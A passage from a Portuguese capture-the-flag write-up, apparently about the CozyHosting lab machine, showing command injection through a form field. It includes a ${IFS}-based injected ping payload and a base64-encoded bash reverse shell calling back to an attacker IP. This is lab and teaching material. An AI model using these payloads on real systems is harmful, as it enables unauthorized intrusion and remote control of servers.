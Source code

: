 ```text
Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface]           [-b bind_address] [-c cipher_spec] [-D [bind_address:]port]           [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11]         [-i identity_file] [-J [user@]host[:port]] [-L address]           [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port]           [-Q query_option] [-R address] [-S ctl_path] [-W host:port]           [-w local_tun[:remote_tun]] destination [command 
[argument ...]]/bin/bash: line 1: uid=1001(app): command not found
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```
{: .nolineno }
Resolvi testar um ping na minha máquina através do payload no burp e capturei com wireshark.
Como não é permitido espaços usamos o ${IFS} no lugar dos espaços que significa (IFS = Internal Field Separator).

```text
host=127.0.0.1&username=;`ping${IFS}10.10.14.188`
```
{: .nolineno }
![Alt text](/assets/img/5cozyhosting.png)

### Payload e Reverse Shell

Agora vamos preparar nosso payload para reverse shell
precisamos encodar em base64

```shell
┌──(kali💀kali)-[~]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.188/4443 0>&1' |base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODgvNDQ0MyAwPiYxCg==
```
{: .nolineno }
